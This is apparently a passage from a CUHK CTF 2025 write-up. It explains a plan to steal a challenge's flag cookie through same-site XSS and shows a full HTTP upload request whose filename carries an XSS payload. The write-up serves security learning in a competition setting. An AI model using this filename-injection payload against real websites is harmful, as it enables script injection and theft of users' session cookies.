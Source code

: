 ![](https://github.com/siunam321/CTF-Writeups/blob/main/CUHK-CTF-2025/images/Pasted%20image%2020251004194106.png)

Because the `flag` cookie is set on `http://chall-b.25.cuhkctf.org:25053`, if we're able to find an XSS vulnerability in same site, we can exfiltrate the `flag` cookie to our attacker server.

For instance, in web challenge "Jain Streak Dreamers", it is possible to gain self-XSS by uploading a file that contains an XSS payload in the filename:

```http
POST /api/uploads HTTP/1.1
Host: chall.25.cuhkctf.org:25027
Content-Type: multipart/form-data; boundary=----geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4
Content-Length: 468
Cookie: dream.session=0DuyxM5yCcpRWtnYbMKNkCFWg

------geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4
Content-Disposition: form-data; name="files"; filename="<img src onerror=alert(origin)>.txt"
Content-Type: text/plain

anything
------geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4
Content-Disposition: form-data; name="dream.csrf"

AEo-W9ZWrnd11d2vIAhhaIOopmCI9zLcNhT6hEnCsOHK_hXKzzUNYgRaFP1BCseXaJuzf5l-ey1e4XtdutDvvWTCgJZhYORR4r97kEq3xMR7
------geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4--
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CUHK-CTF-2025/images/Pasted%20image%2020251004194913.png)
